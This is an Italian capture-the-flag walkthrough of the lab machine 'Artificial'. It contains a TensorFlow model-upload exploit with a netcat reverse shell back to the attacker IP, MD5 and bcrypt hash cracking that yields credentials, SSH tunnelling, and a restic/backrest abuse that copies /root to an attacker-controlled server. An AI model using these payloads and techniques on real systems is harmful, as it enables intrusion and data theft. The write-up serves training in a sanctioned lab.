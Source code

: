 # Macchina artificial

IP vittima: 10.10.11.74 
IP attacante: 10.10.14.6

## Recon

`sudo nmap -p- --open -vvv -n -Pn 10.10.11.74 -oG porte`
`nmap -sC -sV -p22,80 10.10.11.74 -oN servizi`

```bash
# Nmap 7.94SVN scan initiated Wed Oct 22 18:37:34 2025 as: nmap -sC -sV -p22,80 -oN servizi 10.10.11.74
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 22 18:37:42 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
```

Porte: 22,80

## Porta 80

Probabilmente non si riesce a visitare la porta http 80 sul browser quindi aggiornare `/etc/hosts con: <IP MACCHINA> artificial.htb`
![](images\2025-10-22-23-14-56-image.png)

Creare un account e loggarsi, poi scaricare il Dockerfile

![](images\2025-10-22-23-15-41-image.png)Sfrutteremo questo exploit: https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Inserendo il nostro IP e la nostra porta di ascolto

Creare il Docker con il docker file scaricato dal sito:

```bash
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Quando si avvia il container docker creato saremo in una shell bash:

- creare un file .py che contiene l'exploit (mettere il nostro ip e la porta)
- eseguire il file .py creato con python
- lo script lanciato creerà un file `exploit.h5`
- copiare il file exploit.h5 creato fuori dal docker ( `docker cp $(docker ps -l -q):/code/exploit.h5 ./` )

Ora dal sito uploadare il file `exploit.h5`

![](images\2025-10-22-23-17-52-image.png)mettersi in ascolto sulla porta 4444 ( `nc -nlvp 4444` ) e cliccare su `View Predictions` sul sito

![](images\2025-10-22-23-18-49-image.png)Siamo dentro con l'utente `app`
Vediamo che nella cartella /home ci sono due cartelle: app e gael che probabilmente è un utente che troviamo anche in /etc/passwd
![](images\2025-10-22-23-19-45-image.png)

## User gael

Con [[linpeas]]troviamo il file `/home/app/app/instance/users.db`
che possiamo esaminare:

![](images\2025-10-22-23-20-17-image.png)Questa chiave `c99175974b6e192936d97224638a34f8` è un hash MD5 che potrebbe essere la password dell'user gael

Creiamo un file `hash.txt` che contiene la hash di gael e proviamo a craccarla con [[johntheripper]]
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`

![](images\2025-10-22-23-20-48-image.png)Troviamo la password: `mattp005numbertwo`

Con la password trovata possiamo entrare nell'utente gael con ssh `ssh gael@10.10.11.74`
Nella cartella `/home/gael` troviamo il file `user.txt` con la user flag

## Root

Con [[linpeas]]si trova il file `backrest_backup.tar.gz` nella cartella `/var/backups`
Scarichiamolo sul nostro pc e apriamolo ( `tar -xvf backrest_backup.tar.gz` )
Nella cartella `backrest/.config/backrest` troviamo il file `config.json`:

![](images\2025-10-22-23-21-39-image.png)Questa è una **password cifrata con bcrypt** Analizziamo i dettagli:

### Struttura del dato:

- **Identificatore**: `"backrest_root"`
- **Algoritmo**: `bcrypt` (indicato dal campo `passwordBcrypt`)
- **Formato**: Stringa codificata in Base64
  
  ### Cosa contiene esattamente:
  
  La stringa `"JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"` è un hash bcrypt che include:
1. **Versione algoritmo** (`$2a$`)
2. **Costo computazionale** (work factor)
3. **Salt** (valore casuale)
4. **Hash della password** vero e proprio
   
   ### Contesto probabile:

`"backrest_root"` suggerisce che potrebbe essere una password per il tool di backup `backrest` che è una soluzione di backup accessibile via web basata su restic che utilizza la porta 9898 di localhost
Possiamo sfruttare questo exploit di restic: https://gtfobins.github.io/gtfobins/restic/ ma dovremo installare restic ( `apt install restic` ) e rest-server scaricandolo da qui https://github.com/restic/rest-server

Cracchiamola con [[johntheripper]]
`john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
Troviamo la password: `?:!@#$%^`

Nella macchina vittima lanciamo il comando `ss -tuln` 
Comando `ss`:

### Significato delle opzioni:

- **`-t`** (TCP) - Mostra le connessioni TCP  
- **`-u`** (UDP) - Mostra le connessioni UDP  
- **`-l`** (listening) - Mostra solo socket in ascolto
- **`-n`** (numeric) - Mostra numeri invece di risolvere nomi (più veloce)
  
  ### Cosa visualizza:
  
  Elenca **tutti i servizi in ascolto** sulla macchina con:
- **Protocollo** (TCP/UDP)    
- **Porta** in uso    
- **Indirizzo IP** di ascolto   
- **Stato** della connessione

Vediamo che la porta 9898 è utilizzata:
![](images\2025-10-22-23-22-29-image.png)

Sulla nostra macchina, con Il comando `ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898` creiamo un **tunnel SSH con port forwarding locale**. 

### Cosa succede esattamente:

1. **Sulla tua macchina locale**:    
   - SSH apre un socket in ascolto sulla **porta 9898**       
2. **Quando ti connetti alla tua porta 9898**:  
   - Il traffico viene **incapsulato** nella connessione SSH      
   - Viaggia cifrato fino al server `10.10.11.74`      
3. **Sul server remoto**:
   - SSH inoltra il traffico a `127.0.0.1:9898`     
   - (cioè a un servizio in esecuzione sul server stesso)

Con `localhost:9898` nel nostro browser entriamo nel servizio backrest sulla macchina vittima
![](images\2025-10-22-23-23-10-image.png)

Accediamo con Username: `backrest_root` e Password: `!@#$%^`
Dopo aver fatto l'accesso dovremo creare una nuova repo (+ Add Repo)

![](images\2025-10-22-23-23-38-image.png)mettendo un nome (repox), URI /opt e una password (123456)
![](images\2025-10-22-23-24-15-image.png)

Mettiamoci in ascolto sulla nostra macchina con 
`./rest-server --path /tmp/restic-data --listen :12345 --no-auth`

Poi sul sito selezioniamo la repo creata e clicchiamo su Run Command

![](images\2025-10-22-23-24-48-image.png)Poi inseriamo i seguenti comandi:
`-r rest:http://<NOSTRO IP>:12345/repox init`
`-r rest:http://<NOSTRO IP>:12345/repox backup /root`

Sulla nostra macchina inseriamo i comandi:
`restic -r /tmp/restic-data/repox snapshots`

![](images\2025-10-22-23-25-24-image.png)`restic -r /tmp/restic-data/repox restore f8118067 --target ./restore`   (f8118067 è l'ID della repo)

Poi con il comando `cat restore/root/root.txt` otteniamo la flag root
